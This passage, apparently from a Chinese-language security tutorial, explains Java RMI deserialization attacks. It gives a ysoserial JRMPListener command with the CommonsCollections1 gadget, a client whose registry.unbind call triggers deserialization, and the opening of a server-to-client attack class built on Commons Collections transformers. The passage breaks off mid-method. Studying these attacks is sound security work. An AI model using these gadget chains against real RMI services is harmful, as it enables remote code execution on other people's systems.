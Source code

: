 ```
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 12345 CommonsCollections1 calc
```

![image-20220411221815169](images/3.png)

但是调用unbind也会触发反序列化，实际上这五种方法都可以达到注册中心反打客户端或服务端的目的

```
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class Client2 {
    public static void main(String[] args) throws Exception{
        Registry registry = LocateRegistry.getRegistry("127.0.0.1",12345);
        registry.unbind("test");
    }
}
```

![image-20220411222259223](images/4.png)

### 服务端攻击客户端

服务端攻击客户端，可以分为以下两种情景。

- 服务端返回参数为Object对象
- 远程加载对象

当服务端返回一个Object对象给客户端的时候，客户端会对这个Object对象反序列化，当远程调用某个方法的时候，返回的是一个Object对象

接口

```
package RMIunser;

import java.rmi.Remote;

public interface User extends Remote {
    public Object getUser() throws Exception;
}
```

实现类（在这里面重写getUser）

```
package RMIunser;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.rmi.RemoteException;
import java.rmi.server.UnicastRemoteObject;
import java.util.HashMap;
import java.util.Map;

public class LocalUser extends UnicastRemoteObject implements User  {

    public LocalUser() throws RemoteException {
        super();
    }

    public Object getUser() throws Exception{
```